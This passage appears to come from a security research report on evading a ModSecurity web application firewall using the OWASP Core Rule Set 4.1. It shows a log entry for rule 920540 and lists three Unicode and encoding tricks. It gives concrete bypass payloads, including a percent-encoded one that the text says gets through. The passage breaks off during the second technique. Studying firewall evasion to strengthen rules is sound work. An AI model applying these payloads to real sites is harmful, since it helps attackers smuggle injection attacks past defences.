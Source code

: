 \begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt`\uFE69{secret}`</payload>

<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cuFE69"</MatchedData>
\end{lstlisting}

The ModSecurity log file does not mention any transformations used by the rule before checking for matching character sequences. This was confirmed by looking at the rule with id \verb|920540| in the file \verb|REQUEST-920-PROTOCOL-ENFORCEMENT.conf| where it states: \verb|t:none|. Based on this observation, the JavaScript escape sequences evaluation results stated under Section~\ref{sec:jsescapesingleiter} and the unicode normalization results stated under Section~\ref{sec:uninormsingleiter}, three techniques to evade CRS4.1 rule with id \verb|920540| seem promising:

\begin{enumerate}
	\item Percent encoding the payload
	\item Using the Unicode code point escape sequence
	\item Directly putting the small dollar sign character into the payload, without any escaping
\end{enumerate}

(1.) Percent encoding was done using the python statement:

\begin{lstlisting}[style=basicStyle, language=Python]
urllib.parse.quote_plus("prompt`\uFE69{secret}`")
\end{lstlisting}

which returns the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt%60%EF%B9%A9%7Bsecret%7D%60
\end{lstlisting}

This payload successfully bypasses the evaluated firewall. 

(2.) Using a Unicode code point escape sequence introduced in ES6, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
prompt`\u{FE69}{secret}`
\end{lstlisting}

